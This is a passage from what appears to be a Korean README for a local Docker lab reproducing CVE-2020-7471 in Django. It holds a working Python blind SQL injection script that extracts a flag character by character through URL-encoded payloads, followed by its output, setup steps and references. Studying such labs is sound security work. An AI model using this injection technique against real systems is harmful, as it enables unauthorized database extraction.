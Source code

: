 ```python
        if exists_check(resp.content):
            break

    flag = ""
    for j in range(1,flag_length+1):
        for ascii in range(0,128):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20
            when%20(select%20ascii(substring((SELECT%20(flag)%20as%20cnt%20FROM%20vul_flag%20offset%200%20
            limit%201),%20{j},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"
            vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                flag = flag+str(chr(ascii))
                break
    print(flag)

#Information Schema에서 테이블 정보 추출
#get_table_info_from_information_schema()

#테이블명 알아냈으니 information_schema에서 column 정보 추출
#get_column_info_from_information_schema()

#column정보 기반으로 flag 값 추출
get_flag_from_flag_table()

```

- 다음은 실행 결과입니다.

```
D033Y_!S_L0N3LY
```

## 서비스 구동 방법 
---
1. Build Docker image
```
make build
```
2. Up Docker Image
```
make up
```
3. Check Web Site
* [127.0.0.1](http://127.0.0.1/post/1/).

### 레퍼런스
- [Poc](https://github.com/Saferman/CVE-2020-7471)
- [CVE-2020-7471](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7471)
- [Django Security](https://docs.djangoproject.com/ko/2.1/topics/security/)
- [Django Offical Document](https://www.djangoproject.com/weblog/2020/feb/03/security-releases/)
- [Django Release History](https://docs.djangoproject.com/en/3.0/releases/security/#february-3-2020-cve-2020-7471)


